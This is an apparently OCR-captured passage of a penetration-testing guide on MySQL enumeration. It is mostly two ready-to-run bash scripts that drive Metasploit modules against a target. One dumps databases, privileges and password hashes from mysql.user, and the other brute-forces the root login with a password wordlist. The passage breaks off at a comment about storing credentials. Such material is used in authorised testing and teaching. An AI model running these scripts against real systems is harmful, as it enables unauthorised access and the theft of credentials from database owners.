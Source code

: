 ```bash
#!/bin/bash

TARGET=$1
USER=$2
PASS=$3

echo "[*] Exploring MySQL database on $TARGET"

msfconsole -q -x "
workspace -a mysql_exploration;
setg RHOSTS $TARGET;
setg USERNAME $USER;
setg PASSWORD $PASS;

echo '[+] Listing databases';
use auxiliary/admin/mysql/mysql_sql;
set SQL 'show databases;';
run;

echo '[+] Checking user privileges';
set SQL 'select user, host, authentication_string from mysql.user;';
run;

echo '[+] Checking database permissions';
set SQL 'select * from mysql.db;';
run;

echo '[+] MySQL exploration complete';
exit"
```

## Complete MySQL Enumeration Workflow

### Comprehensive Assessment Script

```bash
#!/bin/bash

TARGET=$1
OUTPUT_DIR="mysql_full_enum_$(date +%Y%m%d_%H%M%S)"
mkdir -p $OUTPUT_DIR

echo "[*] Starting comprehensive MySQL enumeration"
echo "[*] Target: $TARGET"
echo "[*] Output directory: $OUTPUT_DIR"

msfconsole -q -x "
workspace -a full_mysql_scan;
setg RHOSTS $TARGET;

echo '[+] Detecting MySQL version';
use auxiliary/scanner/mysql/mysql_version;
run;

echo '[+] Performing brute force attack';
use auxiliary/scanner/mysql/mysql_login;
set USERNAME root;
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt;
set STOP_ON_SUCCESS true;
set VERBOSE false;
run;

# Store credentials for later use
```